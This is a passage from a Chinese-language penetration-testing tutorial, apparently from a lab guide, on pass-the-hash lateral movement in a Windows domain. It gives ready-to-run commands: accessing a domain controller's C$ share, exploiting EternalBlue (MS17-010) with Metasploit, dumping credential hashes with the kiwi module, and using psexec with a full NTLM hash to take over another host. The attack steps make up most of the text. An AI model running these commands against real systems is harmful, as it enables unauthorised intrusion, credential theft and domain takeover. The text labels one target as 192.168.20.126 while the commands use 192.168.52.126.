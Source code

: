 **c、在新shell中执行操作**

成功后会弹出一个新的shell,此时可以在不使用明文密码访问远程主机或服务。

- 查看DC主机进程信息： tasklist  \\\DC.secknow.com\c$
- 上传文件到DC主机： copy  filename  \\\\DC.secknow.com\c$
- 使用at创建计划任务
- ......



#### 3）使用MSF进行PTH攻击

**a、先利用永恒之蓝漏洞拿到跳板机控制权**

```
 search ms17-010
 use  exploit/windows/smb/ms17_010_eternalblue
 set rhosts 192.168.52.103
 exploit
```

**b、获取跳板机Hash**

利用MSF中的kiwi模块获取跳板机器的Hash

```bash
meterpreter > load  kiwi    //加载kiwi模块
meterpreter > creds_msv     //获取Hash
```

![image-20220815150859033](assets/image-20220815150859033.png)

**c、使用psexec模块哈希传递攻击目标机器**

以exploit/windows/smb/psexec模块哈希传递攻击Windows7（IP:192.168.20.126）

```shell
use exploit/windows/smb/psexec
set rhosts 192.168.52.126
set smbuser administrator
# 完整的Administrator用户的Hash
set smbpass 00000000000000000000000000000000:4d6e43b2cdc951808100f5b1d09aac63  
set smbdomain workgruop
run
```
